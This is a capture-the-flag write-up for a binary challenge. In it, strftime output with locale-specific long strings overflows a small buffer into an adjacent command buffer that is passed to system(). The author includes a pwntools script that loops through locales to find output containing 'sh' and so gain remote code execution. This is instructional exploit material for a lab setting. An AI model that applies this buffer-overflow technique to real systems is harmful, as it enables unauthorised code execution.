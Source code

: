 In this challenge, we can provide arbitrary `strftime` format strings and also change the locale used to generate the
string. The difference between `printf` and `strftime` is that `strftime` only has 1 "argument" - the time. This makes
it much safer than `printf` vulnerability. However, in here, we have 2 buffers - the `output` and `command` buffer,
where the `output` buffer is placed before the `command` buffer in memory. The `command` buffer is passed to `system` when
we select option 3.

The limit passed to strftime is 0x30, which means that the output will be at most 0x30 bytes long. `memcpy` uses the
`strlen` of the output to copy `n` bytes to `output`, which is only 0x20 bytes long. We just need to use specifiers that
output more than 2 bytes (since each specifier is 2 bytes) in order to increase the length of the specifier and overflow
into `command`.

The goal is to find a datetime string from a certain locale with `sh` in it, so we can overflow into the `command`
variable with `sh` and get RCE. Obviously I'm not Duolingo and I don't know every language, so I spun up the provided
container to get all the available locales on remote.

```
/ # ls /srv/usr/lib/locale
C.utf8            ca_ES@valencia    es_BO             gl_ES@euro        mnw_MM            sq_AL.utf8
aa_DJ             ca_FR             es_BO.utf8        gu_IN             mr_IN             sq_MK
...
```

(there are over 500 so I'm not putting all here)

Then taking these locales, I looped through a few different format specifiers to see if `sh` appears in the output.

```python
timestr = b"%a" # %b etc
for i in locales:
    p.sendline(b"2")
    p.sendline(i.encode())
    if b"Failed" not in p.clean():
        p.sendline(b"1")
        p.sendline(timestr)
        p.recvuntil(b"Formatted: ")
        out = p.recvline()
        log.info(f"{i}: {out}")
        if b"sh" in out:
            log.info("FOUND!")
```

These few locales gave me `sh`:

```
# %A: [*] sq_AL.utf8: b'e shtun\xc3\xab\xbe\xd1\x82\xd0\xb0\x97\xe1\x83\x98\n'
# %c: [*] xh_ZA.utf8: b'Mgq 20 Tsh 2024 08:00:06 UTC\n'
# %b: [*] xh_ZA.utf8: b'Tsh\n'
```
